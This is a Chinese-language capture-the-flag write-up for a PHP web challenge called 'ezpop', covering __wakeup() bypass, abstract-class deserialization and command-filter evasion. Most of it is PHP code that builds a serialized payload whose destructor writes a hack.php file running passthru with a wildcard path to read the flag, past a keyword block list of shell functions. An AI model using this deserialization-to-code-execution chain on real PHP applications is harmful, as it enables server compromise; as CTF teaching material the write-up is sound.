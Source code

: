 - **题目名称：**ezpop
- **题目类型：** WEB
- **题目难度：**中等 
- **出题人：**ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：**

- **flag：**

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入shell方法，此方法为抽象方法，在子类里实现，所以便进入evil的shell方法，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    protected $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract protected function shell();

    public function action() {
        $this->shell();
    }
}
class normal{
    function action(){
        echo "you must bypass it";
    }
}
class evil extends hack {
    protected $data;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
    }
    protected function shell(){
        $hack=fopen("hack.php","w") or die("Unable 2 open");
        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/i',$this->data)){
            die("you die");
           }
        fwrite($hack,$this->data);
        fclose($hack);
    }
}
$a=serialize(new Openfunc());
echo $a;
echo urlencode($a);
?>
```

